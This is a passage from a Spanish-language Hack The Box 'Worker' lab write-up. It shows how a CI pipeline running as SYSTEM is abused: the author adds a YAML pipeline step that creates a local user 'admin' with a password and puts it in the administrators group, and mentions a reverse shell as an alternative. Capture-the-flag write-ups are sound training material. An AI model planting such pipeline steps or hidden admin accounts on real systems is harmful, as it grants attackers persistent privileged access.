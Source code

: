 ![Worker-whoami-check](/assets/imagenes/2021-01-30-worker-HTB/Worker-whoami-check.png)

Como podemos ver, aunque ha fallado, porque el segundo comando que le he indicado a devuelto un status de salida igual a 1 vemos que el usuario que ejecuta todo esto es system.

Ya que somos system, podriamos tirar una reverse shell, pero en este caso para trabajar de forma más comoda, vamos a crear un usuario en el sistema y lo vamos a meter en el grupo de administradores.

Vamos a crear una nueva pipe line y vamos a hacer que ejecute *net user admin Contraseña1 /add ; net localgroup administrators admin /add*.

```yml
# Starter pipeline
# Start with a minimal pipeline that you can customize to build and deploy your code.
# Add steps that build, run tests, deploy, and more:
# https://aka.ms/yaml

trigger:
- master


steps:
- script: echo Hello, world!
  displayName: 'Run a one-line script'

- script: |
    echo Add other tasks to build, test, and deploy your project.
    echo See https://aka.ms/yaml
    net user admin Contraseña1 /add
    net localgroup administrators admin /add
  displayName: 'Run a multi-line script'
```